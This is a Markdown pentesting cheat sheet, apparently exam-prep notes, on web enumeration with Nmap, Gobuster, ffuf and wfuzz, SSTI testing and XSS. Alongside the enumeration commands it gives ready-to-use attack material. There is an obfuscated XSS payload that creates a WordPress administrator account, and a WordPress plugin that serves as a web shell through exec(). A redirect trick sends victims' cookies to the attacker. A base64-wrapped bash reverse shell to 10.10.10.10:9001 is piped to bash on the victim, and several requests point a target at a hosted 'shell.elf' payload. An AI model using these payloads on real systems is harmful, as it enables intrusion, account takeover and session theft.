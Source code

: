 # Web Ass Tool
## Nmap
- Use NSE script
``` http-num  ```

## Use Gobuster 

    Gobuster fuzzing

    ``` gobuster dir -u {ip} -w /usr/share/wordlists/dirb/common.txt -t 42 ```

    ``` -x php ```can add filetype here

### Gobuster enum API
- Provide pattern in pattern file
    ``` {GOBUSTER}/v1 ```

- Enum (RECURSIVELY IF NEEDED!)
    ``` gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern -t 42```

- Try more seclists in still cant find e.g. https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-medium-directories.txt 
    ```
    /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt
    /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    ```

- Enum try more file extension!!! (Dont be lazy)

## ffuf
- Check subdomain
- ```ffuf -u http://{ip} -H "Host:FUZZ.{hostname}" -w /usr/share/seclists/discovery/dns/subdomains-top1million.txt ```
- ``` -fs 1234 ``` filter size = 1234

## SSTI
- https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti
- ``` ${{<%[%'"}}%\. ``` Testing these character
1. can try code execution e.g. python: maybe code have ```eval()``` and you can ```__import__('os').system(whoami)```

## Burp Suite
- You know what to do =]

## enum version/ using which service
- ``` whatweb ```

# Web Enum
- curl traversal check ``` curl --path-as-is {URL} ```

- curl POST ``` curl -X POST -d "code=2*2" http://192.168.171.117:50000/verify```

- curl POST w/ JSON ``` curl -v -X POST -H "Content-Type: application/json" -d '{"user":"clumsyadmin", "url":"http://192.168.45.197/shell.elf"}' "http://192.168.173.134:13337/update"  ```

- useful file 
1. .htaccess will tell you some hidden allowed key pair header --> add = can access 
   ``` do with burp suite browser
    - proxy -> option -> match and place --> request header & replace: {new header} --> ok
   ```

- Useful url

    ``` sitemap.xml robots.txt ```

- Useful header info

    ``` X-??? ```

- http file to markdown
  ``` curl -s http://192.168.244.140:8000/ | html2markdown ```

## wFuzz
- https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz 
1. ``` wfuzz -c -z file,/usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -d '{"user":FUZZ,"url":"http://192.168.45.197/shell.elf"}' -H "Content-Type: application/json" -t 20 -v http://192.168.173.134:13337/update ```


# Try Default password !!!

## XSS
Wont be much in exam
- Identify vuln params
- Prepare payload to vuln page/plugin/etc E.G. adding new account to the web

    ```
    var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
    ajaxRequest = new XMLHttpRequest();
    ajaxRequest.open("POST", requestURL, true);
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    ajaxRequest.send(params);
    ```
- Minified it with this:
  
    ``` 
    function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
            
    let encoded = encode_to_javascript('insert_minified_javascript')
    console.log(encoded)
    ```

- payload example

    ``` "<script>eval(String.fromCharCode( {output} ..... ))</script> ```

- Simple CLI runner plugin in WP
``` 
<?php
/*
Plugin Name: CLI Runner
Plugin URI: https://example.com/cli-runner
Description: A plugin that allows you to run command line interface (CLI) commands from WordPress.
Version: 1.0.0
Author: Your Name
Author URI: https://example.com
License: GPL2
*/

if (!defined('ABSPATH')) {
    exit; // Exit if accessed directly
}

if (!class_exists('CLI_Runner')) {

    class CLI_Runner {

        public function __construct() {
            // Add a custom action to the WordPress admin menu
            add_action('admin_menu', array($this, 'add_menu'));
        }

        public function add_menu() {
            // Add a submenu under "Tools"
            add_submenu_page(
                'tools.php', // Parent slug
                'CLI Runner', // Page title
                'CLI Runner', // Menu title
                'manage_options', // Capability required
                'cli-runner', // Menu slug
                array($this, 'cli_runner_page') // Callback function
            );
        }

        public function cli_runner_page() {
            // Check if the form has been submitted
            if (isset($_POST['cli_runner_command'])) {
                $command = sanitize_text_field($_POST['cli_runner_command']);
                $output = exec($command);
                echo "<pre>$output</pre>";
            }
            ?>
            <div class="wrap">
                <h1>CLI Runner</h1>
                <form method="post">
                    <textarea name="cli_runner_command" rows="10" cols="80"></textarea><br>
                    <input type="submit" value="Run Command" class="button button-primary">
                </form>
            </div>
            <?php
        }

    }

}

// Initialize the plugin
$cli_runner = new CLI_Runner();
```


## Advanced XSS with redirecting to steal sessions/jwt/cookies
1. Host a python web server and add index.html 
```
<meta http-equiv="refresh" content="0; URL=new_website_url" />

```
2. craft new_website_url: ``` original_url+params?=windows.location='kali_ip'/document.cookies ```
3. call local web and will redirect to the victim web and then pass the cookie thru http call back 


## Base64 encode and decode a one liner
1. ``` echo -n "bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1'" | base64 ``` encode
2. ``` echo -n {base64encoded} | base64 -d | bash``` decode and run in victim